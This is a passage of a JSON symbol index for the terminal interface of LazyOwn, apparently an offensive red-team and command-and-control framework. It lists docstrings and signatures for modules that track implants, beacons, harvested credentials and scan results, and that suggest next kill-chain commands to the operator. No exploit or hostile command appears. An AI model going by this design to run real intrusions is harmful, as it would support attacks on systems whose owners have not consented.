first non-empty target key from ``payload.json``.", "kind": "method", "line": 283, "name": "collect", "signature": "def collect(self)"}, {"doc": "Bind to config, sessions reader and payload mapping.", "kind": "method", "line": 295, "name": "__init__", "signature": "def __init__(self, config, reader, payload)"}, {"doc": "Return the active phase from ``world_model.json`` then payload then default.", "kind": "method", "line": 306, "name": "collect", "signature": "def collect(self)"}, {"doc": "Bind to config and sessions reader.", "kind": "method", "line": 322, "name": "__init__", "signature": "def __init__(self, config, reader)"}, {"doc": "Return a short description of the freshest credential / vuln / note.", "kind": "method", "line": 327, "name": "collect", "signature": "def collect(self)"}, {"kind": "method", "line": 335, "name": "_latest_credential", "signature": "def _latest_credential(self)"}, {"kind": "method", "line": 345, "name": "_latest_vuln", "signature": "def _latest_vuln(self)"}, {"kind": "method", "line": 358, "name": "_latest_note", "signature": "def _latest_note(self)"}, {"kind": "method", "line": 376, "name": "_last_line", "signature": "def _last_line(self, path)"}, {"kind": "method", "line": 389, "name": "_summarise_credential", "signature": "def _summarise_credential(self, filename, line)"}, {"kind": "method", "line": 396, "name": "_extract_vuln_items", "signature": "def _extract_vuln_items(self, payload)"}, {"doc": "Bind to config, reader and the current-phase callable.\n\nArgs:\n    config: Active configuration.\n    reader: Sessions filesystem reader (used to discover the\n        most recent command verb).\n    phase_provider: Zero-arg callable returning the active\n        phase identifier. Decoupled so the suggestion source\n        does not duplicate the phase-detection logic.\n    hint_provider: Optional override for the hint engine. When\n        omitted the default :func:`cli.reactive_hints.command_hints`\n        is resolved lazily so the import order stays clean.", "kind": "method", "line": 426, "name": "__init__", "signature": "def __init__(self, config, reader, phase_provider, hint_provider)"}, {"doc": "Return the top kill-chain suggestion or the configured fallback.", "kind": "method", "line": 451, "name": "collect", "signature": "def collect(self)"}, {"kind": "method", "line": 476, "name": "_latest_command", "signature": "def _latest_command(self)"}, {"kind": "method", "line": 500, "name": "_default_provider", "signature": "def _default_provider()"}, {"doc": "Bind to config, reader, and an optional advisor factory.\n\nArgs:\n    config: Active configuration.\n    reader: Sessions filesystem reader.\n    advisor_factory: Zero-arg callable returning an object that\n        exposes ``suggest_next(recent_commands, limit)``. When\n        ``None`` the source falls back to ``config.fallback_suggestion``.", "kind": "method", "line": 511, "name": "__init__", "signature": "def __init__(self, config, reader, advisor_factory)"}, {"doc": "Return a one-token suggestion. Never raises.", "kind": "method", "line": 530, "name": "collect", "signature": "def collect(self)"}, {"kind": "method", "line": 551, "name": "_recent_commands", "signature": "def _recent_commands(self)"}, {"kind": "method", "line": 579, "name": "_suggestion_label", "signature": "def _suggestion_label(entry)"}, {"doc": "Bind to the active config, reader, and an injectable clock.\n\nArgs:\n    config: Active configuration.\n    reader: Sessions reader (the only filesystem entry point).\n    clock: Zero-argument callable returning the current Unix\n        timestamp. Defaults to :func:`time.time`; tests inject a\n        fixed value for determinism.", "kind": "method", "line": 601, "name": "__init__", "signature": "def __init__(self, config, reader, clock)"}, {"doc": "Return the active-operator count formatted as a short string.", "kind": "method", "line": 622, "name": "collect", "signature": "def collect(self)"}, {"kind": "method", "line": 636, "name": "_extract_entries", "signature": "def _extract_entries(payload)"}, {"kind": "method", "line": 646, "name": "_is_active", "signature": "def _is_active(entry, threshold)"}, {"doc": "Bind to the active configuration.", "kind": "method", "line": 659, "name": "__init__", "signature": "def __init__(self, config)"}, {"doc": "Return the line without ANSI colour or readline markers.", "kind": "method", "line": 664, "name": "render_plain", "signature": "def render_plain(self, ctx)"}, {"doc": "Return ``base_prompt`` with the status line prefixed.\n\nArgs:\n    ctx: The context snapshot to render.\n    base_prompt: Existing prompt string (may already contain ANSI).\n    color_open: Optional ANSI prefix override. When ``None`` the\n        renderer falls back to :attr:`StatusBarConfig.color_open`.\n    color_close: Optional ANSI suffix override. When ``None`` the\n        renderer falls back to :attr:`StatusBarConfig.color_close`.\n    readline_safe: When ``True`` wrap inserted ANSI escapes with\n        GNU-readline zero-width markers. Defaults to ``False``\n        because the cmd2/prompt_toolkit shell renders those\n        markers as visible ``^A``/``^B`` glyphs.\n\nReturns:\n    A new prompt string with the status line joined above\n    ``base_prompt``.", "kind": "method", "line": 687, "name": "render_prompt", "signature": "def render_prompt(self, ctx, base_prompt, color_open, color_close, readline_safe)"}, {"kind": "method", "line": 724, "name": "_sanitise", "signature": "def _sanitise(self, value, max_chars)"}, {"doc": "Bind config, sources, renderer and a payload mapping.\n\nArgs:\n    config: Active configuration.\n    sources: Mapping with mandatory keys ``target``, ``phase``,\n        ``finding``, ``suggestion``. Each value must be an\n        :class:`IStatusSource`.\n    renderer: Renderer instance.\n    payload: Optional ``payload.json`` mapping used to evaluate\n        the enabled flag.\n\nRaises:\n    KeyError: When a mandatory source key is missing.", "kind": "method", "line": 752, "name": "__init__", "signature": "def __init__(self, config, sources, renderer, payload)"}, {"doc": "Return ``True`` when the bar should render on this shell.", "kind": "method", "line": 783, "name": "enabled", "signature": "def enabled(self)"}, {"doc": "Return a fresh :class:`StatusContext` by polling every source.", "kind": "method", "line": 798, "name": "collect_context", "signature": "def collect_context(self)"}, {"doc": "Return the prompt with the status line prefixed when enabled.\n\nThe active TUI theme is resolved on every call so a live\n``set tui_theme bright`` updates the prompt colour on the next\nprompt without restarting the shell.", "kind": "method", "line": 811, "name": "render_prompt", "signature": "def render_prompt(self, base_prompt, readline_safe)"}, {"doc": "Return ``(open, close)`` ANSI sequences from the active theme.", "kind": "method", "line": 823, "name": "_resolve_theme_colors", "signature": "def _resolve_theme_colors(self)"}, {"doc": "Return the rendered status line without ANSI / readline markers.\n\nArgs:\n    ctx: Optional pre-collected context. When ``None`` the\n        manager collects a fresh one.\n\nReturns:\n    The plain status line. Useful for the ``status_bar show``\n    verb when colour escapes would clutter operator scripts.", "kind": "method", "line": 833, "name": "render_plain_line", "signature": "def render_plain_line(self, ctx)"}, {"doc": "Persist a new enabled state in the payload-backed flag.\n\nThe payload mapping passed to the manager is mutated in place so\nsubsequent ``enabled`` reads reflect the change without a config\nreload. Non-mapping payloads are ignored.", "kind": "method", "line": 847, "name": "set_enabled", "signature": "def set_enabled(self, enabled)"}, {"doc": "Wire the manager into ``shell`` via a precommand hook.\n\nArgs:\n    shell: The :class:`cmd2.Cmd` instance.\n    base_prompt_attribute: Attribute on the shell that holds the\n        static prompt (used as the suffix on every refresh).\n    prompt_attribute: Attribute on the shell that cmd2 reads when\n        drawing the prompt.\n\nReturns:\n    ``True`` when the hook was registered, ``False`` otherwise.\n    Failure is always silent — the shell must boot even when the\n    status bar cannot be installed.", "kind": "method", "line": 857, "name": "install", "signature": "def install(self, shell, base_prompt_attribute, prompt_attribute)"}, {"doc": "Return a cmd2-compatible precmd hook or ``None`` when cmd2 is absent.\n\ncmd2 enforces strict type annotations on hook callables — the\nsingle parameter and the return type must both be\n``cmd2.plugin.PrecommandData``. The closure built here therefore\nbinds those exact annotations at install time so the hook passes\n``Cmd._validate_prepostcmd_hook``.", "kind": "method", "line": 895, "name": "_build_precmd_hook", "signature": "def _build_precmd_hook(self, shell, base_prompt, base_prompt_attribute, prompt_attribute)"}, {"kind": "method", "line": 929, "name": "_safe_collect", "signature": "def _safe_collect(self, key)"}, {"kind": "method", "line": 938, "name": "_fallback_for", "signature": "def _fallback_for(self, key)"}, {"kind": "function", "line": 915, "name": "_hook", "signature": "def _hook(data)"}]}, {"doc": "Centralised TUI style tokens for the LazyOwn operator surface.  This module is a thin semantic layer over :mod:`cli.themes`. It exposes a small, stable set of tokens (``title``, ``accent``, ``hint``...) so that callers -- the cmd2 prompt, the post-command hint line, the daily tip, the splash overlay -- never reference raw ANSI escape codes or theme names directly. Switching the active theme re-paints every surface that imports from this module without any change in call sites.  Design notes:  - Single Responsibility: only token -> style resolution lives here. No I/O, no payload reading, no printing. Callers pass the payload mapping in when they need theme resolution. - Open/Closed: new tokens are added by extending :data:`TOKEN_KEYS`; the resolver does not change. - Dependency Inversion: callers depend on the :func:`style` / :func:`paint` functions, never on :mod:`cli.themes` directly. The underlying theme module can be swapped without touching consumers. - No magic strings: every token key is declared in :data:`TOKEN_KEYS`.", "id": "cli/style.py", "kind": "module", "label": "style.py", "language": "py", "sha256": "158bff03cbc79da0", "symbol_count": 4, "symbols": [{"doc": "Return the Rich style string for a semantic token.\n\nArgs:\n    token: One of :data:`TOKEN_KEYS`. Unknown tokens fall back to\n        ``\"white\"`` rather than raising -- callers may pass\n        user-influenced keys without crashing the prompt.\n    theme: Optional pre-resolved :class:`cli.themes.Theme`. When\n        ``None`` the default theme is used.\n\nReturns:\n    A Rich-compatible style string (e.g. ``\"bold cyan\"``).", "kind": "function", "line": 49, "name": "style", "signature": "def style(token, theme)"}, {"doc": "Resolve every :data:`TOKEN_KEYS` entry for the payload's theme.\n\nArgs:\n    payload: Loaded ``payload.json`` mapping. ``None`` returns\n        the default theme tokens.\n\nReturns:\n    Dict mapping each token key to a Rich style string. Useful\n    when a surface wants to render multiple tokens without\n    re-resolving the theme per call.", "kind": "function", "line": 68, "name": "active_tokens", "signature": "def active_tokens(payload)"}, {"doc": "Render ``text`` with the style of ``token`` for the active theme.\n\nArgs:\n    text: Raw text to render. No markup parsing.\n    token: Semantic token from :data:`TOKEN_KEYS`.\n    payload: Optional payload mapping; ``None`` uses defaults.\n\nReturns:\n    A :class:`rich.text.Text` instance ready to print or compose.", "kind": "function", "line": 84, "name": "paint", "signature": "def paint(text, token, payload)"}, {"doc": "Print a themed prompt line composed of ``(text, token)`` pairs.\n\nThe function does not terminate with a newline; cmd2's prompt\nmachinery appends the trailing space. Each segment is coloured\nusing the resolved theme, and segments are joined with a dim\nseparator so the prompt reads as a single visual unit.\n\nArgs:\n    console: A :class:`rich.console.Console` the shell already\n        uses for output.\n    segments: Ordered list of ``(text, token)`` pairs. Tokens come\n        from :data:`TOKEN_KEYS`. An empty list is a no-op.\n    payload: Optional payload mapping. When ``None`` the default\n        theme is used; passing a payload lets the call site pick\n        the operator's chosen theme.\n\nReturns:\n    None. The result is written to ``console`` directly.", "kind": "function", "line": 98, "name": "render_prompt", "signature": "def render_prompt(console, segments, payload)"}]}, {"doc": "Network surface graph reader for the LazyOwn shell.  Mirrors the ``vis.js`` graph rendered by ``templates/index.html`` (consumed by ``lazyc2.py``), but works entirely from the filesystem artefacts inside ``sessions/`` so the cmd2 shell can render the same picture without running the Flask server.  The graph has the same five-node taxonomy as the web UI:  * ``c2``      — the LazyOwn operator station (root). * ``client``  — an active implant (one ``sessions/<client_id>.log`` file). * ``host``    — a discovered remote host (from ``hostsdiscovery.txt`` or ``scan_discovery*.csv``, or surfaced via an implant's ``discovered_ips`` column). * ``port``    — an open TCP/UDP port on a discovered host. * ``service`` — banner/version metadata attached to a port when known.  Data sources, in priority order:  * ``sessions/hostsdiscovery.txt``        — newline-delimited IPs. * ``sessions/scan_discovery_*.csv``      — ``;``-quoted IP/PORT/SERVICE. * ``sessions/<client_id>.log``           — per-implant CSV with the ``discovered_ips`` and ``result_portscan`` columns. * ``payload.json``                       — local C2 host/port (``lhost``, ``c2_port``) for the root node. * ``sessions/os.json``                   — current target OS hint.  The module is pure data: it returns plain dataclasses + ``to_dict`` so the result is equally usable from a Rich/Textual renderer, an MCP response or", "id": "cli/surface_graph.py", "kind": "module", "label": "surface_graph.py", "language": "py", "sha256": "3035330a13a6f9d1", "symbol_count": 33, "symbols": [{"doc": "Return the canonical ``host-<dotted-ip>`` id used by the web graph.", "kind": "function", "line": 75, "name": "_slug_host", "signature": "def _slug_host(ip)"}, {"doc": "Return a stable port-node id rooted at ``host_id``.", "kind": "function", "line": 80, "name": "_slug_port", "signature": "def _slug_port(host_id, port, protocol)"}, {"doc": "A node in the network surface graph.\n\nArgs:\n    id: Stable string identifier (e.g. ``host-10-0-0-1``).\n    kind: One of ``c2``, ``client``, ``host``, ``port``, ``service``.\n    label: Human-readable label rendered in the TUI.\n    metadata: Free-form structured attributes from the source file.", "kind": "class", "line": 87, "name": "SurfaceNode", "signature": "class SurfaceNode"}, {"doc": "A directed edge between two surface nodes.", "kind": "class", "line": 113, "name": "SurfaceEdge", "signature": "class SurfaceEdge"}, {"doc": "Aggregate snapshot of nodes + edges discovered on disk.", "kind": "class", "line": 126, "name": "SurfaceGraph", "signature": "class SurfaceGraph"}, {"doc": "Configuration for :class:`SurfaceGraphBuilder`.\n\nArgs:\n    sessions_dir: Path to the ``sessions/`` directory.\n    payload_path: Path to ``payload.json`` (read for ``lhost``,\n        ``c2_port``).\n    include_local_ips_as_hosts: When true, attach each local IP as a\n        ``host`` node so the C2 is visible alongside the targets.\n    skip_log_basenames: Implant logs that should never be treated as\n        beacons (e.g. ``access``).", "kind": "class", "line": 174, "name": "SurfaceGraphConfig", "signature": "class SurfaceGraphConfig"}, {"doc": "Compose a :class:`SurfaceGraph` from on-disk session artefacts.", "kind": "class", "line": 196, "name": "SurfaceGraphBuilder", "signature": "class SurfaceGraphBuilder"}, {"doc": "Convenience factory: build a graph from on-disk artefacts.\n\nArgs:\n    sessions_dir: Path to the LazyOwn sessions directory.\n    payload_path: Path to ``payload.json``.\n\nReturns:\n    A populated :class:`SurfaceGraph`.", "kind": "function", "line": 633, "name": "build_surface_graph", "signature": "def build_surface_graph(sessions_dir, payload_path)"}, {"doc": "Yield every node reachable from ``root_id`` via outgoing edges.", "kind": "function", "line": 650, "name": "iter_descendants", "signature": "def iter_descendants(graph, root_id)"}, {"doc": "Return a JSON-serialisable view of the node.", "kind": "method", "line": 102, "name": "to_dict", "signature": "def to_dict(self)"}, {"doc": "Return a JSON-serialisable view of the edge.", "kind": "method", "line": 120, "name": "to_dict", "signature": "def to_dict(self)"}, {"doc": "Return a JSON-serialisable view (mirrors the web UI payload).", "kind": "method", "line": 135, "name": "to_dict", "signature": "def to_dict(self)"}, {"doc": "Return per-kind node counts plus edge count.", "kind": "method", "line": 146, "name": "stats", "signature": "def stats(self)"}, {"doc": "Return nodes that ``node_id`` points to via an outgoing edge.", "kind": "method", "line": 153, "name": "children_of", "signature": "def children_of(self, node_id)"}, {"doc": "Return the node with ``node_id`` or ``None``.", "kind": "method", "line": 165, "name": "get", "signature": "def get(self, node_id)"}, {"kind": "method", "line": 199, "name": "__init__", "signature": "def __init__(self, config)"}, {"doc": "Read every session artefact and return the assembled graph.", "kind": "method", "line": 202, "name": "build", "signature": "def build(self)"}, {"kind": "method", "line": 331, "name": "_kind_order", "signature": "def _kind_order(kind)"}, {"kind": "method", "line": 341, "name": "_build_c2_node", "signature": "def _build_c2_node(self, local_ips, payload)"}, {"kind": "method", "line": 359, "name": "_discover_local_ips", "signature": "def _discover_local_ips(self)"}, {"kind": "method", "line": 380, "name": "_fallback_local_ips", "signature": "def _fallback_local_ips()"}, {"kind": "method", "line": 386, "name": "_load_payload", "signature": "def _load_payload(self)"}, {"kind": "method", "line": 399, "name": "_read_os_hint", "signature": "def _read_os_hint(self)"}, {"doc": "Collect discovery IPs from every hosts discovery file.", "kind": "method", "line": 414, "name": "_read_hostsdiscovery", "signature": "def _read_hostsdiscovery(self, local_ips)"}, {"doc": "Collect port records from every scan CSV plus nmap normal output.", "kind": "method", "line": 436, "name": "_read_scan_discovery", "signature": "def _read_scan_discovery(self, local_ips)"}, {"kind": "method", "line": 442, "name": "_read_scan_csv", "signature": "def _read_scan_csv(self, local_ips)"}, {"doc": "Parse nmap normal output (``-oN``) for hosts and open ports.\n\nReads ``Nmap scan report for <ip|name (ip)>`` headers plus the\n``PORT STATE SERVICE`` table, keeping ``open`` rows only. Output\nrecords share the CSV shape (ip/port/protocol/service/version).", "kind": "method", "line": 467, "name": "_read_scan_nmap", "signature": "def _read_scan_nmap(self, local_ips)"}, {"kind": "method", "line": 525, "name": "_read_implants", "signature": "def _read_implants(self)"}, {"kind": "method", "line": 542, "name": "_read_last_implant_row", "signature": "def _read_last_implant_row(self, path)"}, {"kind": "method", "line": 559, "name": "_parse_implant_row", "signature": "def _parse_implant_row(self, row)"}, {"kind": "method", "line": 580, "name": "_parse_port_scan", "signature": "def _parse_port_scan(self, raw)"}, {"kind": "method", "line": 616, "name": "_is_ipv4", "signature": "def _is_ipv4(value)"}, {"kind": "method", "line": 622, "name": "_client_label", "signature": "def _client_label(client_id, meta)"}]}, {"doc": "Terminal renderer for the LazyOwn network surface graph.  This is the TUI counterpart of the ``vis.js`` graph rendered by ``templates/index.html``. It walks the :class:`~cli.surface_graph.SurfaceGraph` that :class:`~cli.surface_graph.SurfaceGraphBuilder` assembled from ``sessions/`` and ``payload.json`` and offers three rendering modes so it plugs into any operator workflow:  * :func:`render_static` — print a Rich tree once and return; ideal for the ``do_surface`` cmd2 command in non-interactive shells. * :func:`launch_tui`    — open a full-screen Textual app with a navigable tree + detail pane (Q to quit, R to refresh). * :func:`render_json`   — emit the graph as JSON for piping into other tools or feeding the MCP layer.  The module degrades cleanly when ``textual`` is missing: only the TUI launcher requires it, and it raises a typed :class:`TextualNotInstalled` that the caller can translate into an operator-friendly message.", "id": "cli/surface_tui.py", "kind": "module", "label": "surface_tui.py", "language": "py", "sha256": "ad672d397d0f73be", "symbol_count": 19, "symbols": [{"doc": "Raised when the optional ``textual`` dependency is unavailable.", "kind": "class", "line": 61, "name": "TextualNotInstalled", "signature": "class TextualNotInstalled(RuntimeError)"}, {"doc": "Render the surface graph as a Rich tree and return it.\n\nArgs:\n    graph: Optional prebuilt graph. When ``None``, the function reads\n        ``sessions_dir`` and ``payload_path`` to build one.\n    sessions_dir: Path to the LazyOwn sessions directory.\n    payload_path: Path to ``payload.json``.\n    console: Optional Rich console; a new stdout console is created\n        when ``None``.\n\nReturns:\n    The :class:`SurfaceGraph` that was rendered (useful for tests).", "kind": "function", "line": 65, "name": "render_static", "signature": "def render_static(graph, sessions_dir, payload_path, console)"}, {"doc": "Return the surface graph as a JSON string.\n\nArgs:\n    graph: Optional prebuilt graph; built on demand when ``None``.\n    sessions_dir: Path to the LazyOwn sessions directory.\n    payload_path: Path to ``payload.json``.\n\nReturns:\n    A pretty-printed JSON document mirroring the dict returned by\n    :meth:`SurfaceGraph.to_dict`.", "kind": "function", "line": 92, "name": "render_json", "signature": "def render_json(graph, sessions_dir, payload_path)"}, {"doc": "Open the full-screen Textual surface explorer.\n\nArgs:\n    sessions_dir: Path to the LazyOwn sessions directory.\n    payload_path: Path to ``payload.json``.\n\nRaises:\n    TextualNotInstalled: When the ``textual`` package is missing.", "kind": "function", "line": 112, "name": "launch_tui", "signature": "def launch_tui(sessions_dir, payload_path)"}, {"kind": "function", "line": 214, "name": "_build_rich_tree", "signature": "def _build_rich_tree(graph)"}, {"kind": "function", "line": 223, "name": "_attach_children", "signature": "def _attach_children(parent, graph, parent_id, seen)"}, {"kind": "function", "line": 232, "name": "_styled_label", "signature": "def _styled_label(node)"}, {"kind": "function", "line": 241, "name": "_stats_table", "signature": "def _stats_table(graph)"}, {"kind": "function", "line": 260, "name": "_render_node_detail", "signature": "def _render_node_detail(data)"}, {"doc": "Two-pane Textual app: surface tree + selected-node metadata.", "kind": "class", "line": 130, "name": "SurfaceExplorer", "signature": "class SurfaceExplorer(App)"}, {"kind": "method", "line": 148, "name": "__init__", "signature": "def __init__(self, sessions_dir, payload_path)"}, {"kind": "method", "line": 154, "name": "compose", "signature": "def compose(self)"}, {"kind": "method", "line": 161, "name": "on_mount", "signature": "def on_mount(self)"}, {"kind": "method", "line": 164, "name": "action_refresh", "signature": "def action_refresh(self)"}, {"kind": "method", "line": 168, "name": "action_expand_all", "signature": "def action_expand_all(self)"}, {"kind": "method", "line": 172, "name": "action_collapse_all", "signature": "def action_collapse_all(self)"}, {"kind": "method", "line": 176, "name": "on_tree_node_selected", "signature": "def on_tree_node_selected(self, event)"}, {"kind": "method", "line": 185, "name": "_reload_graph", "signature": "def _reload_graph(self)"}, {"kind": "method", "line": 205, "name": "_add_children", "signature": "def _add_children(self, parent_node, graph, parent_id)"}]}, {"doc": "Theme registry for the LazyOwn TUI surfaces.  Every Textual overlay (Cmd-K palette, sessions browser, timeline scrubber, command form, graph overlay) and the persistent status bar pull their colour tokens from this module. Themes are pure data: a name plus a mapping from semantic role to a Rich-compatible style string. Consumers look up styles by role, never by raw colour, so adding a new theme is one constant declaration and every surface follows along.  Design notes:  - Single Responsibility: only theme registration and lookup live here. No widget, no I/O. The active theme is selected by the operator via the ``tui_theme`` payload key; this module never touches ``payload.json`` directly. - Open/Closed: new themes are added to :data:`THEMES`; the resolver does not change. - Dependency Inversion: callers depend on the :class:`Theme` dataclass, never on the underlying terminal capabilities. - No magic numbers/strings: every role and colour lives in one of the declared :class:`Theme` constants below.", "id": "cli/themes.py", "kind": "module", "label": "themes.py", "language": "py", "sha256": "a8cb96df2115f20d", "symbol_count": 3, "symbols": [{"doc": "Immutable mapping from semantic UI role to Rich style string.\n\nAttributes:\n    name: Stable identifier used by ``payload.json[\"tui_theme\"]``.\n    title: Style for primary headings (titles, modal headers).\n    subtitle: Style for secondary headings and helper text.\n    accent: Style for highlighted tokens (matches, focused items).\n    muted: Style for inactive entries and field labels.\n    border: Style for panel borders and dividers.\n    success: Style for positive markers (ok, completed, found).\n    warning: Style for cautionary markers.\n    danger: Style for destructive or error markers.\n    hint: Style for the inline reactive hint footer.\n    bar_open: Raw ANSI prefix written by the status bar.\n    bar_close: Raw ANSI suffix written by the status bar.", "kind": "class", "line": 31, "name": "Theme", "signature": "class Theme"}, {"doc": "Return the registered :class:`Theme` for ``name`` with safe fallback.\n\nArgs:\n    name: Theme identifier as written in ``payload.json[\"tui_theme\"]``.\n        ``None`` or unknown names fall back to :data:`DEFAULT_THEME_NAME`.\n\nReturns:\n    The matching :class:`Theme`. Never raises.", "kind": "function", "line": 222, "name": "get_theme", "signature": "def get_theme(name)"}, {"doc": "Return the theme selected by ``payload[\"tui_theme\"]``.\n\nArgs:\n    payload: Loaded ``payload.json`` mapping. ``None`` returns the\n        default theme.\n\nReturns:\n    The resolved :class:`Theme`.", "kind": "function", "line": 238, "name": "theme_from_payload", "signature": "def theme_from_payload(payload)"}]}, {"doc": "Textual scrubber over ``sessions/LazyOwn_session_report.csv``.  The session report is a CSV that every command appends to. The scrubber turns it into a paginated, searchable, key-driven view so the operator can replay decisions, jump to artefacts and answer questions like \"what was the gobuster command we ran last week?\" without leaving the shell.  Design (SOLID):  - Single Responsibility: :class:`TimelineConfig` owns constants, :class:`TimelineEntry` is the immutable row, :class:`TimelineReader` loads CSV rows lazily, :class:`TimelineState` slices and filters, :class:`TimelineBrowserApp` renders. - Open/Closed: a new column is one tuple entry in :attr:`TimelineConfig.columns`. - Dependency Inversion: the app is always built from a :class:`TimelineState` so tests bypass Textual entirely. - No magic numbers / hardcoded paths: every value lives in the config.", "id": "cli/timeline_browser.py", "kind": "module", "label": "timeline_browser.py", "language": "py", "sha256": "a2e2a5cea943a267", "symbol_count": 25, "symbols": [{"doc": "Descriptor for a single column rendered by the scrubber.", "kind": "class", "line": 33, "name": "TimelineColumn", "signature": "class TimelineColumn"}, {"doc": "Centralised constants for the scrubber.", "kind": "class", "line": 43, "name": "TimelineConfig", "signature": "class TimelineConfig"}, {"doc": "Immutable row exposed to consumers of :class:`TimelineState`.", "kind": "class", "line": 65, "name": "TimelineEntry", "signature": "class TimelineEntry"}, {"doc": "Read the CSV report into a list of :class:`TimelineEntry` records.", "kind": "class", "line": 72, "name": "TimelineReader", "signature": "class TimelineReader"}, {"doc": "Filtering + selection state shared with the Textual app.", "kind": "class", "line": 122, "name": "TimelineState", "signature": "class TimelineState"}, {"doc": "Wire the canonical state used by :func:`launch_scrubber`.", "kind": "function", "line": 157, "name": "build_state", "signature": "def build_state(payload, sessions_dir, config)"}, {"doc": "Open the scrubber and return the highlighted row index on exit.\n\nArgs:\n    payload: Loaded ``payload.json``.\n    state: Optional pre-built state (tests inject one).\n    runner: Optional callable replacing the real Textual app.\n\nReturns:\n    The 0-based row index the operator last highlighted, or ``None``\n    when the scrubber was closed without selection / Textual is\n    unavailable.", "kind": "function", "line": 169, "name": "launch_scrubber", "signature": "def launch_scrubber(payload, state, runner)"}, {"kind": "function", "line": 202, "name": "_build_app", "signature": "def _build_app(state, theme)"}, {"doc": "Bind to config and resolve the sessions root.", "kind": "method", "line": 75, "name": "__init__", "signature": "def __init__(self, config, root)"}, {"doc": "Return the resolved sessions root.", "kind": "method", "line": 81, "name": "root", "signature": "def root(self)"}, {"doc": "Return the parsed entries, newest last.", "kind": "method", "line": 85, "name": "read", "signature": "def read(self)"}, {"kind": "method", "line": 103, "name": "_coerce_row", "signature": "def _coerce_row(self, row)"}, {"doc": "Drop the cache so the next :meth:`entries` call re-reads disk.", "kind": "method", "line": 130, "name": "reload", "signature": "def reload(self)"}, {"doc": "Return filtered entries; reads disk on the first call.", "kind": "method", "line": 134, "name": "entries", "signature": "def entries(self)"}, {"doc": "Return the first non-empty value among ``column.source_keys``.", "kind": "method", "line": 148, "name": "column_value", "signature": "def column_value(self, entry, column)"}, {"kind": "class", "line": 213, "name": "_TimelineBrowserApp", "signature": "class _TimelineBrowserApp(App)"}, {"kind": "method", "line": 228, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 234, "name": "compose", "signature": "def compose(self)"}, {"kind": "method", "line": 242, "name": "on_mount", "signature": "def on_mount(self)"}, {"kind": "method", "line": 249, "name": "on_input_changed", "signature": "def on_input_changed(self, event)"}, {"kind": "method", "line": 253, "name": "on_data_table_row_highlighted", "signature": "def on_data_table_row_highlighted(self, event)"}, {"kind": "method", "line": 259, "name": "action_refresh", "signature": "def action_refresh(self)"}, {"kind": "method", "line": 263, "name": "action_close", "signature": "def action_close(self)"}, {"kind": "method", "line": 266, "name": "_rebuild_rows", "signature": "def _rebuild_rows(self)"}, {"kind": "method", "line": 278, "name": "_refresh_detail", "signature": "def _refresh_detail(self, row_index)"}]}, {"doc": "Unified post-command tips engine: single coordination point for all suggestion surfaces.  Before this module, the shell registered five independent postcmd hooks that rendered suggestion lines without coordination: - ``_inline_hint_hook``: kill-chain adjacency hints (reactive_hints.py) - ``_engagement_hook``: curiosity/VRI/ELO rewards (engagement_hooks.py) - ``_autosuggest_hook``: ghost-text next-command (autosuggest.py) - ``_toast_hook``: event toasts (toasts.py) - ``_recording_hook``: makerc recording  Each hook computed its own context, parsed the same transcript, and produced overlapping or contradictory advice. The operator saw up to five different \"You should run X\" lines with no coordination.  This module collapses them into one logical chain of thought:  1.  **Kill-chain adjacency hints** — fast, deterministic follow-ups from ``_KILL_CHAIN_NEXT`` and ``_PHASE_PRIORITY`` tables. 2.  **Contextual tips** — triggers that match session state (OS, phase, creds found) to surface rarely-discovered commands. 3.  **Curiosity reveal** — one undiscovered command from the same phase, varying within the session. 4.  **Auto-suggest refresh** — ghost-text for the next prompt (press '.'). 5.  **VRI reward** — variable-interval reinforcement at unpredictable command counts. 6.  **ELO / karma scoring** — persistent skill tracking.  All rendering is non-blocking and respects ``ui_hints`` level. A misbehaving surface is silently skipped; the rest continue.", "id": "cli/tips_engine.py", "kind": "module", "label": "tips_engine.py", "language": "py", "sha256": "5aa76fea7fbe18aa", "symbol_count": 59, "symbols": [{"doc": "Empty display callback used when no killchain surface is wired.", "kind": "function", "line": 132, "name": "_noop", "signature": "def _noop()"}, {"doc": "Centralised configuration for the unified tips engine.\n\nEvery magic number, path, and lookup table lives here so the engine\nis testable without touching the filesystem and tunable without\nediting the engine itself.", "kind": "class", "line": 137, "name": "TipsConfig", "signature": "class TipsConfig"}, {"doc": "Coordinate all post-command suggestion surfaces into one render pass.\n\nThe engine holds no per-call state beyond the injected config and a\nreference to the autosuggest engine. Engagement state is persisted to\ndisk via ``sessions/engagement_state.json``.", "kind": "class", "line": 186, "name": "TipsEngine", "signature": "class TipsEngine"}, {"kind": "function", "line": 1103, "name": "_render_streak", "signature": "def _render_streak(ctx, state, config)"}, {"kind": "function", "line": 1124, "name": "_render_exploration", "signature": "def _render_exploration(ctx, state, config)"}, {"kind": "function", "line": 1142, "name": "_render_phase_badge", "signature": "def _render_phase_badge(ctx, state, config)"}, {"kind": "function", "line": 1160, "name": "_render_hidden_feature", "signature": "def _render_hidden_feature(ctx, state, config)"}, {"kind": "function", "line": 1180, "name": "_render_arsenal_tip", "signature": "def _render_arsenal_tip(ctx, state, config)"}, {"doc": "Build a :class:`TipsConfig` populated from the live framework tables.\n\nReturns:\n    A ready-to-use config wired to the static kill-chain tables, ELO\n    tables, and tip registries that ship with the framework.", "kind": "function", "line": 1240, "name": "build_default_tips_config", "signature": "def build_default_tips_config()"}, {"doc": "Wire the engine with its configuration and optional autosuggest handle.\n\nArgs:\n    config: Centralised configuration. Built from defaults when omitted.\n    autosuggest_engine: An :class:`cli.autosuggest.AutoSuggestEngine` instance\n        (or any object exposing ``refresh``, ``current``, ``enabled``).", "kind": "method", "line": 194, "name": "__init__", "signature": "def __init__(self, config, autosuggest_engine)"}, {"doc": "Whether the engine renders any output.", "kind": "method", "line": 221, "name": "enabled", "signature": "def enabled(self)"}, {"doc": "Toggle rendering without dropping state.", "kind": "method", "line": 225, "name": "set_enabled", "signature": "def set_enabled(self, value)"}, {"doc": "Run all surfaces for the given command.\n\nArgs:\n    cmd: The command name that just executed (e.g. ``lazynmap``).\n    phase: Current engagement phase (e.g. ``recon``) from payload.json.\n    hints_level: Overrides :attr:`TipsConfig.hints_level` for this\n        render. ``off`` suppresses every surface; ``minimal`` keeps\n        only the autosuggest accelerator; ``on`` renders everything.", "kind": "method", "line": 229, "name": "render", "signature": "def render(self, cmd, phase)"}, {"doc": "Periodically re-surface the current phase without user prompt.\n\nShows the unified kill-chain bar after every ``killchain_auto_every``\ncommands and immediately whenever the active phase changes. Bounded\nby the injected display callable so the engine stays UI-agnostic.\n\nArgs:\n    phase: The resolved phase for the command that just executed.", "kind": "method", "line": 272, "name": "_maybe_auto_show_killchain", 